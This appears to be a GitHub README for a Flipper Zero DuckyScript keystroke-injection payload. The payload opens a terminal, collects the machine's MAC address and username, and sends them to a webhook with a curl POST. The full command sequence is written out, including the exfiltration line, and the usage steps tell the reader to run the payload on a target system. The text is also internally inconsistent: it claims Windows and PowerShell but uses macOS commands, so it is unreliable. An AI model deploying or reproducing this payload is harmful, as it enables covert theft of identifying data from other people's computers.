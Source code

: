 # 🖥️ GetMacAddress-FlipZero by bst04

## ℹ️ Description

This payload, created by bst04, is designed to retrieve the MAC address and username from a **Windows** system and send this information to a specified webhook.

---

## 📖 Technical Explanation

1. **Initialization**:
    - `DELAY 1000`: Waits for 1 second to ensure the system is ready.
    - `GUI r`: Simulates pressing "Command" + "r" to open execute.
    - `DELAY 250`: Waits for 0.25 seconds to ensure execute command is open.
    - `STRING powershell`: Types "powershell" to search for the powershell application.
    - `DELAY 250`: Waits for 0.25 seconds.
    - `ENTER`: Opens the Terminal application.

2. **Retrieve MAC Address**:
    - `DELAY 750`: Waits for 0.75 seconds to ensure Terminal is fully opened.
    - `STRING mac=$(networksetup -getmacaddress en0)`: Retrieves the MAC address of the primary network interface.
    - `DELAY 750`: Waits for 0.75 seconds.
    - `ENTER`: Executes the command to get the MAC address.

3. **Retrieve Username**:
    - `DELAY 750`: Waits for 0.75 seconds.
    - `STRING name=$(id -un)`: Retrieves the current user's username.
    - `DELAY 750`: Waits for 0.75 seconds.
    - `ENTER`: Executes the command to get the username.

4. **Send Data to Webhook**:
    - `DELAY 850`: Waits for 0.85 seconds.
    - `STRING curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "content=User:$name | $mac" https://webhook`: Sends the MAC address and username to the specified webhook.
    - `DELAY 800`: Waits for 0.8 seconds.
    - `ENTER`: Executes the command to send data to the webhook.

---

## 📜 Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a macOS system.
3. Replace `https://webhook` with your actual webhook URL.
4. Execute the payload to retrieve the MAC address and username, then send the data to the specified webhook.

